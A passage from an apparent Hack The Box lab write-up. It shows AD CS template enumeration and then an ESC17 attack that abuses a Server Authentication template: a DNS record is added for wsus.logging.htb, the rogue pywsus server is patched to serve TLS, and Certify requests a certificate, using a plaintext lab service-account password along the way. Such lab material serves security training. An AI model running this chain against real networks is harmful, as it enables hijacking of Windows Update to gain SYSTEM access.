    Validity Period                       : 1 year
    Renewal Period                        : 6 weeks
    Certificate Name Flag                 : ENROLLEE_SUPPLIES_SUBJECT
    Enrollment Flag                       : INCLUDE_SYMMETRIC_ALGORITHMS
    Manager Approval Required             : False
    Authorized Signatures Required        : 0
    Extended Key Usage                    : Secure Email
    Certificate Application Policies      : <null>
    Permissions
      Enrollment Permissions
        Enrollment Rights           : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
      Object Control Permissions
        Owner                       : logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
        Write Owner                 : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
        Write Dacl                  : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
        Write Property              : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519

    Template Name                         : ExchangeUserSignature
    Enabled                               : False
    Schema Version                        : 1
    Validity Period                       : 1 year
    Renewal Period                        : 6 weeks
    Certificate Name Flag                 : ENROLLEE_SUPPLIES_SUBJECT
    Enrollment Flag                       : NONE
    Manager Approval Required             : False
    Authorized Signatures Required        : 0
    Extended Key Usage                    : Secure Email
    Certificate Application Policies      : <null>
    Permissions
      Enrollment Permissions
        Enrollment Rights           : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
      Object Control Permissions
        Owner                       : logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
        Write Owner                 : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
        Write Dacl                  : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
        Write Property              : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519

    Template Name                         : CrossCA
    Enabled                               : False
    Schema Version                        : 2
    Validity Period                       : 5 years
    Renewal Period                        : 6 weeks
    Certificate Name Flag                 : ENROLLEE_SUPPLIES_SUBJECT
    Enrollment Flag                       : PUBLISH_TO_DS
    Manager Approval Required             : False
    Authorized Signatures Required        : 1
    Required Application Policies         : Qualified Subordination
    Extended Key Usage                    : <null>
    Certificate Application Policies      : <null>
    Permissions
      Enrollment Permissions
        Enrollment Rights           : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
      Object Control Permissions
        Owner                       : logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
        Write Owner                 : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
        Write Dacl                  : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
        Write Property              : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519

    Template Name                         : CAExchange
    Enabled                               : False
    Schema Version                        : 2
    Validity Period                       : 1 week
    Renewal Period                        : 1 day
    Certificate Name Flag                 : ENROLLEE_SUPPLIES_SUBJECT
    Enrollment Flag                       : INCLUDE_SYMMETRIC_ALGORITHMS
    Manager Approval Required             : False
    Authorized Signatures Required        : 0
    Extended Key Usage                    : Private Key Archival
    Certificate Application Policies      : Private Key Archival
    Permissions
      Enrollment Permissions
        Enrollment Rights           : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
      Object Control Permissions
        Owner                       : logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
        Write Owner                 : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
        Write Dacl                  : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
        Write Property              : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519

    Template Name                         : KeyRecoveryAgent
    Enabled                               : False
    Schema Version                        : 2
    Validity Period                       : 2 years
    Renewal Period                        : 6 weeks
    Certificate Name Flag                 : SUBJECT_ALT_REQUIRE_UPN, SUBJECT_REQUIRE_DIRECTORY_PATH
    Enrollment Flag                       : INCLUDE_SYMMETRIC_ALGORITHMS, PEND_ALL_REQUESTS, PUBLISH_TO_KRA_CONTAINER, AUTO_ENROLLMENT
    Manager Approval Required             : True
    Authorized Signatures Required        : 0
    Extended Key Usage                    : Key Recovery Agent
    Certificate Application Policies      : Key Recovery Agent
    Permissions
      Enrollment Permissions
        Enrollment Rights           : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
      Object Control Permissions
        Owner                       : logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
        Write Owner                 : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
        Write Dacl                  : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
        Write Property              : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519

    Template Name                         : DomainControllerAuthentication
    Enabled                               : True
    Publishing CAs                        : DC01.logging.htb\logging-DC01-CA
    Schema Version                        : 2
    Validity Period                       : 1 year
    Renewal Period                        : 6 weeks
    Certificate Name Flag                 : SUBJECT_ALT_REQUIRE_DNS
    Enrollment Flag                       : AUTO_ENROLLMENT
    Manager Approval Required             : False
    Authorized Signatures Required        : 0
    Extended Key Usage                    : Client Authentication, Server Authentication, Smart Card Logon
    Certificate Application Policies      : Client Authentication, Server Authentication, Smart Card Logon
    Permissions
      Enrollment Permissions
        Enrollment Rights           : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Domain Controllers         S-1-5-21-4020823815-2796529489-1682170552-516
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
                                      logging\Enterprise Read-only Domain ControllersS-1-5-21-4020823815-2796529489-1682170552-498
                                      NT AUTHORITY\ENTERPRISE DOMAIN CONTROLLERSS-1-5-9
      Object Control Permissions
        Owner                       : logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
        Write Owner                 : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
        Write Dacl                  : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
        Write Property              : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519

    Template Name                         : DirectoryEmailReplication
    Enabled                               : True
    Publishing CAs                        : DC01.logging.htb\logging-DC01-CA
    Schema Version                        : 2
    Validity Period                       : 1 year
    Renewal Period                        : 6 weeks
    Certificate Name Flag                 : SUBJECT_ALT_REQUIRE_DIRECTORY_GUID, SUBJECT_ALT_REQUIRE_DNS
    Enrollment Flag                       : INCLUDE_SYMMETRIC_ALGORITHMS, PUBLISH_TO_DS, AUTO_ENROLLMENT
    Manager Approval Required             : False
    Authorized Signatures Required        : 0
    Extended Key Usage                    : Directory Service Email Replication
    Certificate Application Policies      : Directory Service Email Replication
    Permissions
      Enrollment Permissions
        Enrollment Rights           : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Domain Controllers         S-1-5-21-4020823815-2796529489-1682170552-516
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
                                      logging\Enterprise Read-only Domain ControllersS-1-5-21-4020823815-2796529489-1682170552-498
                                      NT AUTHORITY\ENTERPRISE DOMAIN CONTROLLERSS-1-5-9
      Object Control Permissions
        Owner                       : logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
        Write Owner                 : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
        Write Dacl                  : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
        Write Property              : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519

    Template Name                         : Workstation
    Enabled                               : False
    Schema Version                        : 2
    Validity Period                       : 1 year
    Renewal Period                        : 6 weeks
    Certificate Name Flag                 : SUBJECT_ALT_REQUIRE_DNS
    Enrollment Flag                       : AUTO_ENROLLMENT
    Manager Approval Required             : False
    Authorized Signatures Required        : 0
    Extended Key Usage                    : Client Authentication
    Certificate Application Policies      : Client Authentication
    Permissions
      Enrollment Permissions
        Enrollment Rights           : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Domain Computers           S-1-5-21-4020823815-2796529489-1682170552-515
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
      Object Control Permissions
        Owner                       : logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
        Write Owner                 : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
        Write Dacl                  : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
        Write Property              : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519

    Template Name                         : RASAndIASServer
    Enabled                               : False
    Schema Version                        : 2
    Validity Period                       : 1 year
    Renewal Period                        : 6 weeks
    Certificate Name Flag                 : SUBJECT_ALT_REQUIRE_DNS, SUBJECT_REQUIRE_COMMON_NAME
    Enrollment Flag                       : AUTO_ENROLLMENT
    Manager Approval Required             : False
    Authorized Signatures Required        : 0
    Extended Key Usage                    : Client Authentication, Server Authentication
    Certificate Application Policies      : Client Authentication, Server Authentication
    Permissions
      Enrollment Permissions
        Enrollment Rights           : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
                                      logging\RAS and IAS Servers        S-1-5-21-4020823815-2796529489-1682170552-553
      Object Control Permissions
        Owner                       : logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
        Write Owner                 : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
        Write Dacl                  : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
        Write Property              : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519

    Template Name                         : OCSPResponseSigning
    Enabled                               : False
    Schema Version                        : 3
    Validity Period                       : 2 weeks
    Renewal Period                        : 2 days
    Certificate Name Flag                 : SUBJECT_ALT_REQUIRE_DNS, SUBJECT_REQUIRE_DNS_AS_CN
    Enrollment Flag                       : ADD_OCSP_NOCHECK, NOREVOCATIONINFOINISSUEDCERTS
    Manager Approval Required             : False
    Authorized Signatures Required        : 0
    Required Application Policies         : 
    Extended Key Usage                    : OCSP Signing
    Certificate Application Policies      : OCSP Signing
    Permissions
      Enrollment Permissions
        Enrollment Rights           : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
      Object Control Permissions
        Owner                       : logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
        Write Owner                 : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
        Write Dacl                  : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
        Write Property              : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519

    Template Name                         : KerberosAuthentication
    Enabled                               : True
    Publishing CAs                        : DC01.logging.htb\logging-DC01-CA
    Schema Version                        : 2
    Validity Period                       : 29219 days
    Renewal Period                        : 6 weeks
    Certificate Name Flag                 : SUBJECT_ALT_REQUIRE_DOMAIN_DNS, SUBJECT_ALT_REQUIRE_DNS
    Enrollment Flag                       : AUTO_ENROLLMENT
    Manager Approval Required             : False
    Authorized Signatures Required        : 0
    Extended Key Usage                    : Client Authentication, KDC Authentication, Server Authentication, Smart Card Logon
    Certificate Application Policies      : Client Authentication, KDC Authentication, Server Authentication, Smart Card Logon
    Permissions
      Enrollment Permissions
        Enrollment Rights           : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Domain Controllers         S-1-5-21-4020823815-2796529489-1682170552-516
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
                                      logging\Enterprise Read-only Domain ControllersS-1-5-21-4020823815-2796529489-1682170552-498
                                      NT AUTHORITY\ENTERPRISE DOMAIN CONTROLLERSS-1-5-9
      Object Control Permissions
        Owner                       : logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
        Write Owner                 : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
        Write Dacl                  : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
        Write Property              : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519

    Template Name                         : UpdateSrv
    Enabled                               : True
    Publishing CAs                        : DC01.logging.htb\logging-DC01-CA
    Schema Version                        : 2
    Validity Period                       : 10 years
    Renewal Period                        : 6 weeks
    Certificate Name Flag                 : ENROLLEE_SUPPLIES_SUBJECT
    Enrollment Flag                       : NONE
    Manager Approval Required             : False
    Authorized Signatures Required        : 0
    Extended Key Usage                    : Server Authentication
    Certificate Application Policies      : Server Authentication
    Permissions
      Enrollment Permissions
        Enrollment Rights           : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
                                      logging\IT                         S-1-5-21-4020823815-2796529489-1682170552-2102
      Object Control Permissions
        Owner                       : logging\Administrator              S-1-5-21-4020823815-2796529489-1682170552-500
        Write Owner                 : logging\Administrator              S-1-5-21-4020823815-2796529489-1682170552-500
                                      logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
        Write Dacl                  : logging\Administrator              S-1-5-21-4020823815-2796529489-1682170552-500
                                      logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
        Write Property              : logging\Administrator              S-1-5-21-4020823815-2796529489-1682170552-500
                                      logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519

Certify completed in 00:00:03.1830084
```

The relevant portion extracted for reference:

```shell
<--- CUT FOR BREVITY --->
    Template Name                         : UpdateSrv
    Enabled                               : True
    Publishing CAs                        : DC01.logging.htb\logging-DC01-CA
    Schema Version                        : 2
    Validity Period                       : 10 years
    Renewal Period                        : 6 weeks
    Certificate Name Flag                 : ENROLLEE_SUPPLIES_SUBJECT
    Enrollment Flag                       : NONE
    Manager Approval Required             : False
    Authorized Signatures Required        : 0
    Extended Key Usage                    : Server Authentication
    Certificate Application Policies      : Server Authentication
    Permissions
      Enrollment Permissions
        Enrollment Rights           : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
                                      logging\IT                         S-1-5-21-4020823815-2796529489-1682170552-2102
      Object Control Permissions
        Owner                       : logging\Administrator              S-1-5-21-4020823815-2796529489-1682170552-500
        Write Owner                 : logging\Administrator              S-1-5-21-4020823815-2796529489-1682170552-500
                                      logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
        Write Dacl                  : logging\Administrator              S-1-5-21-4020823815-2796529489-1682170552-500
                                      logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
        Write Property              : logging\Administrator              S-1-5-21-4020823815-2796529489-1682170552-500
                                      logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
<--- CUT FOR BREVITY --->
```

## Privilege Escalation to SYSTEM

### Active Directory Certificate Services (AD CS) Abuse

#### ESC17: Server Authentication Template Abuse

`ESC17` is an `Active Directory Certificate Services` (`AD CS`) attack technique that abuses a certificate template configured with the `Server Authentication` extended key usage (`EKU`) in combination with `ENROLLEE_SUPPLIES_SUBJECT` (the requester controls the `Subject Alternative Name`). Unlike `ESC1` which targets `Client Authentication` templates to directly impersonate domain users for `PKINIT`, `ESC17` takes a different approach: a `Server Authentication` certificate for a target hostname such as `wsus.logging.htb` can be used to stand up a rogue `HTTPS` service that the domain's clients will trust, because the certificate is signed by the enterprise `CA`. In the context of `WSUS`, this is particularly powerful — a `Windows` client configured to point at an `HTTPS WSUS` server will accept and execute any update package that the server advertises, as long as it trusts the server's `TLS` certificate. An attacker who can obtain a `Server Authentication` certificate for the `WSUS` hostname, create a matching `DNS` record, and run a rogue `WSUS` server can deliver arbitrary commands to the target machine running as `SYSTEM`. The `logging\IT` group's enrollment rights on the `UpdateSrv` template combined with `JAYLEE.CLIFTON`'s `IT` membership made this attack viable.

- [https://trustedsec.com/blog/wsus-is-sus-ntlm-relay-attacks-in-plain-sight](https://trustedsec.com/blog/wsus-is-sus-ntlm-relay-attacks-in-plain-sight)
- [https://blog.digitrace.de/2026/01/using-adcs-to-attack-https-enabled-wsus-clients/](https://blog.digitrace.de/2026/01/using-adcs-to-attack-https-enabled-wsus-clients/)
- [https://mustafanafizdurukan.github.io/posts/esc17-wsus-dns-abuse/](https://mustafanafizdurukan.github.io/posts/esc17-wsus-dns-abuse/)

Checking the registry on the target confirmed the machine was configured to use `HTTPS WSUS` at `wsus.logging.htb:8531`.

```shell
C:\Users\jaylee.clifton\Documents\Tickets>reg query "HKLM\SOFTWARE\Policies\Microsoft\Windows\WindowsUpdate" /s
reg query "HKLM\SOFTWARE\Policies\Microsoft\Windows\WindowsUpdate" /s

HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\WindowsUpdate
    WUServer    REG_SZ    https://wsus.logging.htb:8531
    AcceptTrustedPublisherCerts    REG_DWORD    0x1
    SetProxyBehaviorForUpdateDetection    REG_DWORD    0x0
    WUStatusServer    REG_SZ    https://wsus.logging.htb:8531
    UpdateServiceUrlAlternate    REG_SZ    https://wsus.logging.htb:8531

HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\WindowsUpdate\AU
    AUOptions    REG_DWORD    0x4
    NoAutoUpdate    REG_DWORD    0x0
    AutomaticMaintenanceEnabled    REG_DWORD    0x1
    ScheduledInstallDay    REG_DWORD    0x0
    ScheduledInstallEveryWeek    REG_DWORD    0x1
    ScheduledInstallTime    REG_DWORD    0x3
    UseWUServer    REG_DWORD    0x1
```

A fresh `TGT` was obtained for `svc_recovery` to use its `DNS` write permissions, and a `DNS` record for `wsus.logging.htb` was created pointing to our attacker machine.

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/Logging/files]
└─$ impacket-getTGT logging.htb/svc_recovery:'Em3rg3ncyPa$$2026'                    
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in svc_recovery.ccache
```

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/Logging/files]
└─$ export KRB5CCNAME=svc_recovery.ccache
```

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/Logging/files]
└─$ bloodyAD -d logging.htb -k ccache=svc_recovery.ccache --host dc01.logging.htb --dc-ip 10.129.30.63 add dnsRecord wsus 10.10.16.10 
[+] wsus has been successfully added
```

The `DNS` record was verified to resolve correctly.

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/Logging/files]
└─$ bloodyAD -d logging.htb -k ccache=svc_recovery.ccache --host dc01.logging.htb --dc-ip 10.129.30.63 get dnsDump | grep wsus
recordName: wsus.logging.htb
```

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/Logging/files]
└─$ nslookup wsus.logging.htb 10.129.30.63
Server:         10.129.30.63
Address:        10.129.30.63#53

Name:   wsus.logging.htb
Address: 10.10.16.10
```

`pywsus` was set up in a `Python` virtual environment, patched for compatibility, and modified to support `TLS` via certificate and key arguments.

```shell
┌──(kali㉿kali)-[~/opt/10_post_exploitation/pywsus]
└─$ python3 -m virtualenv venv 
created virtual environment CPython3.13.12.final.0-64 in 564ms
  creator CPython3Posix(dest=/home/kali/opt/10_post_exploitation/pywsus/venv, clear=False, no_vcs_ignore=False, global=False)
  seeder FromAppData(download=False, pip=bundle, via=copy, app_data_dir=/home/kali/.cache/virtualenv)
    added seed packages: pip==26.0.1
  activators BashActivator,CShellActivator,FishActivator,NushellActivator,PowerShellActivator,PythonActivator
```

```shell
┌──(kali㉿kali)-[~/opt/10_post_exploitation/pywsus]
└─$ source venv/bin/activate
```

```shell
┌──(kali㉿kali)-[~/opt/10_post_exploitation/pywsus]
└─$ sudo apt install libxml2-dev libxslt1-dev python3-dev -y
[sudo] password for kali: 
Upgrading:                      
  libgcrypt20  libpython3-dev  libpython3-stdlib  libxml2-16  libxml2-dev  libxslt1.1  python3  python3-dev  python3-minimal  python3-venv

Installing:
  libxslt1-dev
                                                                                                                                                                                                                                                                                                                                                                                                                                          
Summary:
  Upgrading: 10, Installing: 1, Removing: 0, Not Upgrading: 1365
  Download size: 2,667 kB
  Space needed: 908 kB / 48.2 GB available

Get:1 http://mirror.netcologne.de/kali kali-rolling/main amd64 python3-venv amd64 3.13.9-3 [1,176 B]
Get:10 http://mirror.netcologne.de/kali kali-rolling/main amd64 libxslt1.1 amd64 1.1.45-0.1 [158 kB]
Get:3 http://kali.download/kali kali-rolling/main amd64 python3-dev amd64 3.13.9-3 [26.0 kB]
<--- CUT FOR BREVITY --->
```

```shell
┌──(venv)─(kali㉿kali)-[~/opt/10_post_exploitation/pywsus]
└─$ sed -i 's/lxml==4.6.2/lxml==5.3.0/' requirements.txt
```

```shell
┌──(venv)─(kali㉿kali)-[~/opt/10_post_exploitation/pywsus]
└─$ pip install -r requirements.txt                     
Collecting beautifulsoup4==4.9.1 (from -r requirements.txt (line 1))
  Using cached beautifulsoup4-4.9.1-py3-none-any.whl.metadata (4.1 kB)
Collecting lxml==5.3.0 (from -r requirements.txt (line 2))
  Downloading lxml-5.3.0-cp313-cp313-manylinux_2_28_x86_64.whl.metadata (3.8 kB)
Collecting soupsieve==2.0.1 (from -r requirements.txt (line 3))
  Using cached soupsieve-2.0.1-py3-none-any.whl.metadata (5.4 kB)
Using cached beautifulsoup4-4.9.1-py3-none-any.whl (115 kB)
Downloading lxml-5.3.0-cp313-cp313-manylinux_2_28_x86_64.whl (4.9 MB)
   ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 4.9/4.9 MB 23.2 MB/s  0:00:00
Using cached soupsieve-2.0.1-py3-none-any.whl (32 kB)
Installing collected packages: soupsieve, lxml, beautifulsoup4
Successfully installed beautifulsoup4-4.9.1 lxml-5.3.0 soupsieve-2.0.1
```

`pywsus` was patched with `TLS` support from an open pull request and updated with the appropriate `sed` modifications to accept `--cert` and `--key` arguments.

- [https://github.com/GoSecure/pywsus/pull/18/files](https://github.com/GoSecure/pywsus/pull/18/files)

```shell
┌──(venv)─(kali㉿kali)-[~/opt/10_post_exploitation/pywsus]
└─$ git fetch origin pull/18/head:pr18
remote: Enumerating objects: 7, done.
remote: Counting objects: 100% (4/4), done.
remote: Total 7 (delta 4), reused 4 (delta 4), pack-reused 3 (from 1)
Unpacking objects: 100% (7/7), 1.37 KiB | 702.00 KiB/s, done.
From https://github.com/GoSecure/pywsus
 * [new ref]         refs/pull/18/head -> pr18
```

```shell
┌──(venv)─(kali㉿kali)-[~/opt/10_post_exploitation/pywsus]
└─$ git checkout pr18
Switched to branch 'pr18'
```

```shell
┌──(venv)─(kali㉿kali)-[~/opt/10_post_exploitation/pywsus]
└─$ sed -i "s/    parser.add_argument('-v', '--verbose'/    parser.add_argument('--cert', default=None, help='Path to SSL certificate.')\n    parser.add_argument('--key', default=None, help='Path to SSL private key.')\n    parser.add_argument('-v', '--verbose'/" pywsus.py
```

```shell
┌──(venv)─(kali㉿kali)-[~/opt/10_post_exploitation/pywsus]
└─$ sed -i 's/def run(host, port, server_class=HTTPServer, handler_class=WSUSBaseServer):/def run(host, port, cert=None, key=None, server_class=HTTPServer, handler_class=WSUSBaseServer):/' pywsus.py
```

```shell
┌──(venv)─(kali㉿kali)-[~/opt/10_post_exploitation/pywsus]
└─$ sed -i 's/    httpd = server_class(server_address, handler_class)/    httpd = server_class(server_address, handler_class)\n    if cert and key:\n        import ssl\n        ctx = ssl.SSLContext(ssl.PROTOCOL_TLS_SERVER)\n        ctx.load_cert_chain(certfile=cert, keyfile=key)\n        httpd.socket = ctx.wrap_socket(httpd.socket, server_side=True)/' pywsus.py
```

```shell
┌──(venv)─(kali㉿kali)-[~/opt/10_post_exploitation/pywsus]
└─$ sed -i 's/    run(host=args.host, port=args.port)/    run(host=args.host, port=args.port, cert=args.cert, key=args.key)/' pywsus.py
```

Before the rogue `WSUS` server could be started, a valid `TLS` certificate for `wsus.logging.htb` signed by the enterprise `CA` was needed. `Certify` was used from the `JAYLEE.CLIFTON` session to request a certificate from the `UpdateSrv` template with `wsus.logging.htb` as the `DNS` `SAN`.

```shell
PS C:\Users\jaylee.clifton\Documents\Tickets> .\Certify.exe request --ca dc01.logging.htb\logging-DC01-CA --template UpdateSrv --dns wsus.logging.htb
.\Certify.exe request --ca dc01.logging.htb\logging-DC01-CA --template UpdateSrv --dns wsus.logging.htb

   _____          _   _  __          
  / ____|        | | (_)/ _|         
 | |     ___ _ __| |_ _| |_ _   _    
 | |    / _ \ '__| __| |  _| | | |   
 | |___|  __/ |  | |_| | | | |_| |   
  \_____\___|_|   \__|_|_|  \__, |   
                             __/ |   
                            |___./   
  v2.0.0                         

[*] Action: Request a certificate

[*] Current user context    : logging\jaylee.clifton
[*] No subject name specified, using current context as subject.

[*] Template                : UpdateSrv
[*] Subject                 : CN=jaylee.clifton, CN=Users, DC=logging, DC=htb
[*] Subject Alt Name(s)     : wsus.logging.htb

[*] Certificate Authority   : dc01.logging.htb\logging-DC01-CA
[*] CA Response             : The certificate has been issued.
[*] Request ID              : 9

[*] Certificate (PFX)       :

